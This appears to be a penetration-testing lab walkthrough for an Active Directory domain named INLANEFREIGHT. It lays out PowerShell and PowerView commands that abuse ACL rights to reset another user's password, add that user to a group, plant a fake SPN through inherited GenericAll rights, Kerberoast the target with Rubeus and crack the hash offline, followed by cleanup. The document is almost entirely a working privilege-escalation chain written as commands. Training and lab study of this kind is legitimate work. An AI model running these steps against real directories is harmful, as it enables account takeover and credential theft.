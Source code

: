

### Step 1: Change `damundsen` Password
1. Authenticate as `wley`:
   ```powershell
   $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
   $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
   ```

2. Set a new password for `damundsen`:
   ```powershell
   $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
   Import-Module .\PowerView.ps1
   Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
   ```



### Step 2: Add `damundsen` to Help Desk Level 1 Group
1. Authenticate as `damundsen`:
   ```powershell
   $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
   $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
   ```

2. Add to the group:
   ```powershell
   Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
   ```



### Step 3: Exploit Nested Group Membership
- Use inherited permissions via **GenericAll** to modify the `adunn` account.

1. Create a fake SPN for `adunn`:
   ```powershell
   Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
   ```

2. Perform Kerberoasting to retrieve the TGS hash:
   ```powershell
   .\Rubeus.exe kerberoast /user:adunn /nowrap
   ```

3. Crack the hash offline using Hashcat to obtain `adunn`’s password.



## Cleanup Steps
1. **Remove Fake SPN:**
   ```powershell
   Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
   ```
